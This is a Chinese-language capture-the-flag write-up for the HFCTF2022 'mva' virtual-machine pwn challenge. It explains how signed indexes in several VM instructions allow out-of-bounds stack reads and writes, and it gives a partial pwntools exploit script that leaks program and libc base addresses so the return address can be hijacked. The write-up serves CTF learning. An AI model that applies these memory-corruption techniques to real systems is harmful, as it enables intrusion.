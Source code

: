 ## HFCTF2022 mva(数组越界)

代码编译部分，结构大同小异，都是co\|dst\|op2\|op1，四字节一个code。区别在于虚拟的寄存器和栈等变量都存放在栈上。

![image-20220411111253056](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220411111253056.png)

然后功能部分，比较长，这里讲几个用到的功能

这里IDA用到了一个嵌套宏定义[IDA 宏定义 - gwind - 博客园 (cnblogs.com)](https://www.cnblogs.com/gwind/p/8186230.html)，BYTE2等价于(\*((uint8)&(x)+2))，相当于就是取dst了，然后是无符号数；SBYTE2等价于(\*((int8)&(x)+2))，同样取dst但有符号。这里reg相当于寄存器数组，SBYTE2(code)等同于下标。下图这个功能就是相当于一个mov指令，图里op1不太准确，等号右边的code是dx寄存器2字节，所以应该是op2拼接op1(op2:op1)

![image-20220411111509725](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220411111509725.png)

9号指令，idx是一个有符号数，这里就可以负数绕过，这个功能由dst决定是push哪个值。这里的stack寄存器是2字节一个字长，所以在计算数组下标时就stack+idx*2，我们idx取负数0x800000000000010c，乘2后就是0x218。stack+0x218正好时ret的地址。

![image-20220411112249502](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220411112249502.png)

E号指令，也是一个mov功能。但同样也用了一个有符号数进行判断，导致数组越界写。

F号指令，也就可以实现越界读

![image-20220411112428907](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220411112428907.png)

漏洞明确了，思路就是利用越界，在栈上泄露地址，泄露完就控制ret，执行我们的gadget

可以看到ret里有libc_start_main的地址

![image-20220411110136116](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220411110136116.png)

```python
from pwn import *
context.log_level = "debug"

p = process('./mva')

def pack(code, dst, op2, op1):
  return p32(((op1&0xff)<<24)+((op2&0xff)<<16)+((dst&0xff)<<8)+code)
                
   
# 泄露程序基地址
#  0x11f*2=0x23e stack+0x23e
code =  pack(1,0,1,0x1f)   # reg[0] = 0x11f(op2:op1)
code += pack(0xe, 0, -10, 0)  # reg[-10]<=>(idx) = reg[0]
# high
code += pack(0xa, 5, 0, 0)    # reg[5] = stack[--idx_]
code += pack(0xf, 0, 0, 0) # printf stack[idx]
# mid
code += pack(0xa, 4, 0, 0)    # reg[4] = stack[--idx_]
code += pack(0xf, 0, 0, 0) # printf stack[idx]
# low
code += pack(0xa, 3, 0, 0)    # reg[3] = stack[--idx_]
code += pack(0xf, 0, 0, 0) # printf stack[idx]
# -0x10 -> idx=0x10f
code += pack(0xa, 2, 0, 0)*13    # reg[2] = stack[--idx_] * 13

#泄露libc基地址
# high
code += pack(0xa, 2, 0, 0) # reg[2] = stack[--idx_]
code += pack(0xf, 0, 0, 0) # printf stack[idx]
# mid
code += pack(0xa, 2, 0, 0) # reg[2] = stack[--idx_]
code += pack(0xf, 0, 0, 0) # printf stack[idx]
# low
code += pack(0xa, 2, 0, 0) # reg[2] = stack[--idx_]
```